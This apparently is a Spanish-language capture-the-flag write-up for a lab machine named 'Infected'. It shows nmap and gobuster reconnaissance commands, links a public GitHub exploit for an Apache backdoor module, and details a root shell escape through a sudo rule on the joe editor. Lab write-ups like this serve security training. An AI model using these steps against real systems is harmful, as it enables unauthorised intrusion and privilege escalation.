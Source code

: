 # Máquina Infected

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.155

![alt text](image-1.png)


### Servicios y versiones 

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 192.168.42.155

![alt text](image-2.png)

### Fuzzing web

gobuster dir -t 200 -u http://192.168.42.155/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-3.png)

accedemos /info.php

![alt text](image-4.png)

### Explotación

El mod_backdoor tiene un exploit en github:

https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor

lo clonamos

![alt text](image-5.png)

### Escalar privilegios

![alt text](image-6.png)

para escalar a root:

(root) NOPASSWD: /usr/bin/joe

ejecutamos

sudo /usr/bin/joe

se abre una ventana interactiva, presiono

ctrl + k 

luego presiono la tecla " ! "

/bin/sh y presiono enter y listo somos root

![alt text](image-7.png)

### user.txt

![alt text](image-8.png)

### root.txt

![alt text](image-9.png)